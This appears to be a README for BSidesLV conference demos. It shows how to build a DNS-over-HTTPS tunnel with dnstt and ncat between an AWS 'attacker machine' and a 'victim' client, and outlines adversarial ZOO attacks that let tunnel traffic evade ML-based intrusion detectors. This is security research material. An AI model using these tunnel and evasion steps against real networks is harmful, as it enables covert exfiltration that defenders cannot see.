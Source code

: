 # BsidesLV - Demo

## Demo1 - DoH tunnel Basics - 101
In this demo, we will show how to create a DoH tunnel using dnstt on AWS and how to use it to tunnel DNS traffic over HTTPS.

Pre-requisites:
- An AWS account
- An Elastic IP (AWS)
- DNS domain configured in Route 53 (AWS)

### DNS Setup
Go into the AWS Route53 service console and add two records:

A	tns.yourdomain.com	points to	34.239.223.23 (Elastic IP)
NS	t.yourdomain.com	is managed by	tns.yourdomain.com

tns.yourdomain.com points to the addresses of your tunnel server. It is marked as being the nameserver for everything in the t.yourdomain.com DNS zone. 
When a recursive resolver receives a query for subdomain.t.yourdomain.com, it will forward the query to the tunnel server—that is how the client tunnels data to the server.

The "tns" and "t" labels can be anything you want, but the "tns" label should not be a subdomain of the "t" label (everything under that subdomain is reserved for tunnel payloads). 
The "t" label should be short, because there is limited space available in a DNS message, and the domain name takes up part of it.

Here is an example of screen capture of the Route 53 configuration:

![Route53](../img/r53.png)

### Steps
1. Create an EC2 instance (attacker machine) on AWS and attach a elastic IP on it.
2. Make sure the security group allows both TCP and UDP traffic on port 53
3. Install dnstt-server on the EC2 instance
- Clone the dnstt repository: https://github.com/Mygod/dnstt and compile the dnstt-server
- Generate a key pair for the DoH tunnel

```shell
./dnstt-server -gen-key -privkey-file server.key -pubkey-file server.pub
```

4. Create a DoH tunnel (server side)

```shell
./dnstt-server -udp :5300 -privkey-file server.key t.mydomain.com 127.0.0.1:8000
```

5. Create a backend "application" to receive the tunneled traffic on server side

```shell
ncat -l -k -v 127.0.0.1 8000
```

6. Configure the client (victim/local machine) to use the DoH tunnel
- Copy the public key `server.pub` to the client machine

Note: 1.1.1.1 is the Cloudflare DNS resolver. You can use any DoH resolver you want.

```shell
./dnstt-client -doh https://1.1.1.1/dns-query -pubkey-file server.pub t.mydomain.com 127.0.0.1:7000
```

7. Create a backend "application" to receive the tunneled traffic on client side

```shell
ncat -v 127.0.0.1 7000
````

8. Test the DoH tunnel
9. Analyze the traffic
10. Cleanup

## Demo 2 - Attacking DoH Tunnel Detection models    
In this demo, we will demonstrate how to attack DoH tunnel detection models using adversarial examples generated by the 
Zoo Attack (Vanilla) and Zoo Target Attack.
In the Zoo Vanilla attack, the success rate is high because the attack algorithm faces fewer constraints when generating 
adversarial examples.
Conversely, in the Zoo Target attack, the success rate is lower due to the increased constraints on the attack algorithm. 
However, it is important to note that despite the lower success rate, this attack is more realistic. 
In a real-world scenario, we just need a single successful attack instance to achieve the desired effect.

### Zoo Attack (Vanilla Attack)
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Generate adversarial examples (attack): [ZooDoH_Attack_GB.ipynb](./bsides-experiments/ZooDoH_Attack_GB.ipynb)

### Zoo Target Attack 
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Get DoH tunnel tools feature limits: [get-doh-tunnel-tool-limits.ipynb](./bsides-experiments/get-doh-tunnel-tool-limits.ipynb)
4. Increase/decrease the feature limits according to your needs: Edit the file `dnstt-limits-prod.csv`
5. Choose features to attack: Edit the array `features_to_attack` on notebook `Target_ZooDoH_Attack_GB.ipynb`
6. Generate adversarial examples (attack): [Target_ZooDoH_Attack_GB.ipynb](./bsides-experiments/Target_ZooDoH_Attack_GB.ipynb)

## Demo 3 - Real world Black Box Attacking (real-world scenario)   
In this demo, we will demonstrate how to attack DoH tunnel detection models using adversarial examples generated by the Target Zoo Attack in a real-world scenario.
The model is loaded by the [nids-ml.py](./feature-extractor/meter/nids-ml.py) script, simulating a real ML-based NIDS to detect DoH tunnel. The script captures the network traffic, normalize it and classifies it using the loaded model.
We use auxiliary scripts ([generate-tunnel-data](./tunel-dnstt/generate-tunnel-data.py) | [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py)) to produce tunnel data and send it to the NIDS. 

![Demo Target Zoo Attack](../img/demo_target_zoo.png)

## Feature extractor 

```shell
# meter module from dohlyzer
 python dohlyzer.py -n eno1 -c  ./output.csv

```

Note: Verify flow_session.py to change to NRT csv generation.

- Run the command line
```shell
 ./dohlyzer.py -m ../../../sbseg-experiments/models/ -s o

```

